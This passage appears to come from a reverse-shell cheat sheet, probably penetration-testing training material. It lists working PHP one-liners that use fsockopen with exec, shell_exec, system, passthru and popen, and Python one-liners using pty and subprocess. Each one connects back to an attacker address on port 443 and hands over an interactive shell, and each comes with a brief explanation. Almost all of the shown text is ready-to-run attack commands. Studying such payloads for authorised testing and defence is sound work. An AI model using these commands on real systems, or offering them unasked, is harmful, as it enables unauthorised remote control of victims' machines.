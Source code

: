 This reverse shell creates a socket connection to the attacker's IP on port 443 and uses the exec function to execute a shell, redirecting standard input and output.


### PHP Reverse Shell Using the shell_exec Function

```
target@foo:~$ php -r '$sock=fsockopen("<ATTACKER_IP>",443);shell_exec("sh <&3 >&3 2>&3");'
```
Similar to the previous command, but uses the shell_exec function.


### PHP Reverse Shell Using the system Function

```
target@foo:~$ php -r '$sock=fsockopen("<ATTACKER_IP>",443);system("sh <&3 >&3 2>&3");' 
```
This reverse shell employs the system function, which executes the command and outputs the result to the browser.


### PHP Reverse Shell Using the passthru Function

```
target@foo:~$ php -r '$sock=fsockopen("<ATTACKER_IP>",443);passthru("sh <&3 >&3 2>&3");'
```
The passthru function executes a command and sends raw output back to the browser. This is useful when working with binary data.


### PHP Reverse Shell Using the popen Function

```
target@foo:~$ php -r '$sock=fsockopen("<ATTACKER_IP>",443);popen("sh <&3 >&3 2>&3", "r");' 
```
This reverse shell uses popen to open a process file pointer, allowing the shell to be executed.

## Python
Please note, the following snippets below require using python -c to run, indicated by the placeholder PY-C

### Python Reverse Shell by Exporting Environment Variables

```
target@foo:~$ export RHOST="<ATTACKER_IP>"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

### Python Reverse Shell Using the subprocess Module

```
target@foo:~$ PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```
